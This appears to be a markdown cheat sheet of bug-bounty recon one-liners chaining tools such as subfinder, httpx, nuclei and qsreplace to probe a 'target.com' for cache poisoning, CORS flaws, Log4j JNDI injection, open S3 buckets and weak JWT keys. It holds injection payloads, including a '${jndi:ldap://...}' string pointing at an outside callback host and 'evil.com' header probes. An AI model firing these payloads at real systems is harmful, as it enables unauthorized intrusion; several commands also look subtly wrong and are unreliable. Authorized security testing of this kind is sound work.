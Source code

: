 ### Missing Security Headers (Easy Win)
```bash
cat all_urls.txt | httpx -silent -H 'X-Content-Type-Options' -H 'X-Frame-Options' -H 'Content-Security-Policy' -H 'Strict-Transport-Security' | grep -E "missing|absent" | tee weak_headers.txt
```

### Cache Poisoning Detection
```bash
cat all_urls.txt | gf cache | qsreplace 'X-Forwarded-Host: evil.com' | httpx -silent -fr 'evil.com' -o cache_poisoning.txt
```

### Client-Side Prototype Pollution
```bash
cat all_js_urls.txt | xargs -I{} curl -s {} | grep -E 'prototype|__proto__|constructor' | tee client_side_prototype.txt
```

### Sensitive Image Exposures (Backups/Logs)
```bash
subfinder -d target.com | httpx -silent -path-list <(echo -e '/backup.jpg\n/screenshot.png\n/db-dump.png\n/log.png') -mc 200 -o exposed_images.txt
```

### BONUS — Full Recon Workflow One-Liner
```bash
subfinder -d target.com | httpx -silent -title -tech-detect | nuclei -silent -t vulnerabilities/ -o all_findings.txt
```

### Log4j Vulnerability Scanner (JNDI Injection)
```bash
cat all_urls.txt | qsreplace '${jndi:ldap://your-collab-url.burpcollaborator.net/a}' | httpx -silent -o log4j_candidates.txt
```

### AWS S3 Bucket Takeover (Misconfigured Buckets)
```bash
subfinder -d target.com | sed 's/$/.s3.amazonaws.com/' | httpx -silent -mc 200 -o open_buckets.txt
```

### JWT Secrets Brute Force (Weak Signing Key)
```bash
cat jwt_tokens.txt | jwt-cracker -w wordlist.txt -t 50 -o weak_jwt_keys.txt
```

### CORS Misconfiguration Finder
```bash
cat all_urls.txt | httpx -silent -H 'Origin: https://evil.com' -hdrs | grep -E "Access-Control-Allow-Origin: \*|Access-Control-Allow-Origin: https://evil.com" | tee cors_vulns.txt
```
